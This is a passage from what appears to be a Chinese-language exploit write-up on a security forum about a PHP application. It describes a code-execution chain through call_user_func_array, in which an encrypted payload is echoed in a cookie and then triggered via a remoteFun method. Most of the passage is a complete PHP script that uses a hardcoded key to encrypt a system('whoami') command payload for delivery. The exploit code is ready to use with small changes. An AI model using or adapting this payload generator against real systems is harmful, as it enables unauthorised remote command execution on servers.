 访问后，加密的payload会回显在`Cookie`中

![image-20220202195019347.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-e1ce19ad6ff700cd641d221922ca117ccebe968d.png)

然后通过`remoteFun`方法触发`call_user_func_array`函数代码执行

![image-20220202195119930.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-0e47812b9f2e97b018bbcf54bed895322a2dbf07.png)

当然，加密部分也不用那么麻烦，因为`setcookie`回显时只是加了一层`URL编码`处理，所以加密 payload 脚本也可以写成

```php
<?php

function authcode($string, $operation = 'DECODE', $key = '', $expiry = 0)
{
    $ckey_length = 4;
    $key = md5($key);
    $keya = md5(substr($key, 0, 16));
    $keyb = md5(substr($key, 16, 16));
    $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length) : substr(md5(microtime()), -$ckey_length)) : '';
    $cryptkey = $keya . md5($keya . $keyc);
    $key_length = strlen($cryptkey);
    $string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('0d', $expiry ? $expiry + time() : 0) . substr(md5($string . $keyb), 0, 16) . $string;
    $string_length = strlen($string);
    $result = '';
    $box = range(0, 255);
    $rndkey = array();
    for ($i = 0; $i <= 255; $i++) {
        $rndkey[$i] = ord($cryptkey[$i % $key_length]);
    }
    for ($j = $i = 0; $i < 256; $i++) {
        $j = ($j + $box[$i] + $rndkey[$i]) % 256;
        $tmp = $box[$i];
        $box[$i] = $box[$j];
        $box[$j] = $tmp;
    }
    for ($a = $j = $i = 0; $i < $string_length; $i++) {
        $a = ($a + 1) % 256;
        $j = ($j + $box[$a]) % 256;
        $tmp = $box[$a];
        $box[$a] = $box[$j];
        $box[$j] = $tmp;
        $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
    }
    if ($operation == 'DECODE') {
        if ((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26) . $keyb), 0, 16)) {
            return substr($result, 26);
        } else {
            return '';
        }
    } else {
        return $keyc . str_replace('=', '', base64_encode($result));
    }
}

$a = authcode('{"name":"system","param":["whoami","123456"]}', '', 'zMY0khLKVILeoJMirXxTo4thJuy4T5UnMiIbMTuw');
echo urlencode($a);
?>
```
